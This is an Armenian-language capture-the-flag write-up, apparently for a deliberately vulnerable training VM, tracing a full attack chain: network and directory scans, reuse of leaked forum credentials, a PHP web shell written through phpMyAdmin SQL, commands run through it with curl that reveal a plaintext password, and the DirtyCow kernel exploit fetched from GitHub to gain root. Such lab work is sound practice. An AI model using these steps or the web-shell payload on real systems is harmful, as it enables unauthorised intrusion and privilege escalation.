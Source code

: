 # writeup1
VM run անելուց հետո լոգին լինելա մեզանից ուզում, բայց մենք չունենք լոգին փասս
դրա համար մեր համակարգչի մեջ օգտագործում ենք **netdiscover**
գործիքը․ ինչա անում սա․
**netdiscover** գործիքը վերադարձնումա մեզ մեր ցանցում էս պահի գործող բոլոր ip ները, բացի մեր մեքենայինից․
գրում ենք հետևյալ հրամանը․
```
netdiscover -r 192.168.1.0/24 #-r ֆլագը ip ների range նա, ու որտեղից իմացանք /24 -ի մասին, երբ որ անենք ip a կտեսնենք մեր ip ն, որը /24 ովա ավարտվում
```
ու արդյունքում տեսնում ենք հետևյալը․
```
Currently scanning: Finished!   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 498
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     e8:01:8d:27:a7:00      5     210  Fiberhome Telecommunication
 192.168.1.3     c8:3a:35:36:91:18      1      60  Tenda Technology Co., Ltd.
 192.168.1.2     d8:af:81:0f:42:36      1      60  AO
 192.168.1.12    08:00:27:45:1c:86      2      84  PCS Systemtechnik GmbH
 192.168.1.6     32:4c:46:b9:8e:42      2      84  Unknown vendor
```

1-ինը իմ ռոուտերն ա
2-րդը իմ մյուս ռոուտերնա
3-րդը թիվիսա
4-րդը չգիտեմ դեռ, մտնենք բրաուզերով տեսնենք․
<img src="img/Pasted image 20240704110727.png">
ըհն, կարծենք գտանք մեր մեքենայի ip-ն․ բայց շատ դատարկա առաջին հայացքից․ արժի directory ները փարս անել, տեսնենք ինչ կա չկա։

դրա համար կարանք օգտագործենք **dirb** թուլը
```
┌──(neo㉿matrix)-[~]
└─$ dirb http://192.168.1.12/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  4 11:13:15 2024
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
+ http://192.168.1.12/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.12/fonts/
+ http://192.168.1.12/forum (CODE:403|SIZE:285)
+ http://192.168.1.12/index.html (CODE:200|SIZE:1025)
+ http://192.168.1.12/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.1.12/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Jul  4 11:13:19 2024
DOWNLOADED: 4612 - FOUND: 4
```

տեսնում ենք, որ կա մի հատ /forum որի ստատուս կոդը 403 ա (forbidden)
քանի որ մենք միայն http ով էինք սկան արել, եկեք մի հատ https ով փորձենք
աշխարհի output ը տվեց, մինչ սա լինումա, կարանք արդեն https ով ֆորումը մտնենք։
<img src="img/Pasted image 20240704112010.png">
մինչ էս ամենը կուսումնասիրենք, կարանք **nmap** դնենք աշխատի էս մեր ip ի համար․
**nmap**-ը գործիքա, որը սկանա անում մեր տված ip ի բաց պորտերը, ու իրանց մասին ինֆոյա տալիս․ էս վափշե սկզբում պետքա անեինք, ուղղակի ես տարիքով մարդ եմ, մոռացել էի․
```
sudo nmap 192.168.1.12 -sS -sV -sC -v &>out
```

մինչ սկանա լինում,  **Probleme login ?** էջում հետաքրքիր լոգեր ենք տեսնում, որ lmezard user ը ուզումա լոգին լինի, չի ստացվում․ ու որ բրաուզերի ֆունկցիաներից օգտվելով search անենք էդ username ը, կտեսնենք սա.

<img src="img/Pasted image 20240704112903.png">
տեսնում ենք էս լոգերից, որ էդ user ը միամիտ իրա password նա գրել, որպես username ու ֆեյլ ա տվել․

կայքում լոգին լինելու տեղ կա, էկեք դրանով փորձենք
<img src="img/Pasted image 20240704113729.png">
ու թույն, լոգին էղանք
**dirb**-ի output ում նաև կար webmail-ը
<img src="img/Pasted image 20240704114314.png">
lmezard ով լոգին չեղավ, բայց եթե մեր ֆորումից նայենք մեր user ի մեյլը, կտեսնենք սա
<img src="img/Pasted image 20240704120557.png">

էս մեյլով լոգին լինելը ստացվեց, ու մի հետաքրքիր նամակ ենք տեսնում ստեղ
<img src="img/Pasted image 20240704120634.png">
ու երբ որ մտնենք phpmyadmin
<img src="img/Pasted image 20240704120741.png">
էս մեյլի տված փասսվորդով կկարենանք լոգին լինենք

ու էստեղ ունենք sql կոդ գրելու հնարավորություն, ու 40 տարի տանջվելուց և Slack ով ուռիշ մարդկանցից ճշտելլուց հետո հասկացա, որ մենք permission ունենք մենք templates_c folder-ում
դրա համար run կանենք հետևյալը
```
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/gago.php'
```
<img src="img/Pasted image 20240704122427.png">
ըհն, ստացանք սա․

հիմա եկեք տեսնենք ինչեր կան ստեղ

```
┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home'
1	.
..
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME'
1	.
..
password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME/password'
1	/home/LOOKATME/password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

```

էս լոգին փասսով ցավոք ssh ով լոգին չենք կարում լինենք, բայց vm ով կարում ենք

<img src="img/Pasted image 20240712001204.png">
անենք uname -a տեսնենք ինչ կեռնելա, որովհետև տատուցս տարիքով մի քիչա փոքր էս iso ի ֆայլը
<img src="img/Pasted image 20240712001336.png">
ու մի փոքր գուգլելուց հետո **linux 3.2 cve** հանդիպեցի էս լինքին
https://www.cybersecurity-help.cz/exploits/1039/?ref=bulletin
ու գտա github ից էս exploit ը
https://github.com/firefart/dirtycow
git չունենք clone անելու համար, բայց ունենք curl ու 2 քթի ծակ։

գնում ենք tmp, ու curl ով քաշում ենք ֆայլը

```
cd /tmp
curl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
```
exploit-ը օգտագործելու ձևը գրած ա ֆայլում

// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at

compile անենք, ու run անենք

<img src="img/Pasted image 20240712004026.png">
կարծենք ստացվեց․ էկեք փորձենք լոգին լինենք․ էս սկրիպտը username ը փոխումա, էդիթ կանեմ, իմ ֆայլերի մեջ root ով կգցեմ, որ հետո չասեք բա խի root չի, չնայելով, որ id-ն 0-նա։
<img src="img/Pasted image 20240712004305.png">
կարաք շնորհավորեք, ունենք root.

<img src="img/Pasted image 20240712011419.png">
(էս էլ փոխած կոդը, որը գտնվում ա /scripts folder-ի մեջ)
